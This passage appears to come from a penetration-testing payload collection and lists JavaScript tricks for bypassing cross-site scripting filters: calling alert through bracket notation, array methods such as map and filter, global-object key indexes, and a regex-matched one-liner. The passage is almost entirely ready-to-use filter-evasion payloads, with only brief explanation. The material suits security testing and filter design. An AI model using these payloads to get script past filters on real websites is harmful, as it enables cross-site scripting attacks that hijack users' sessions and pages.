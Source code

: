 ### Bypass using an alternate way to execute an alert

From [@brutelogic](https://twitter.com/brutelogic/status/965642032424407040) tweet.

```javascript
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)

[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```

From [@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - Using global variables

The Object.keys() method returns an array of a given object's own property names, in the same order as we get with a normal loop. That's means that we can access any JavaScript function by using its **index number instead the function name**.

```javascript
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }
// 5
```

Then calling alert is :

```javascript
Object.keys(self)[5]
// "alert"
self[Object.keys(self)[5]]("1") // alert("1")
```

We can find "alert" with a regular expression like ^a[rel]+t$ :

```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}} //bind function alert on new function a()

// then you can use a() with Object.keys

self[Object.keys(self)[a()]]("1") // alert("1")
```

Oneliner:
```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")
```
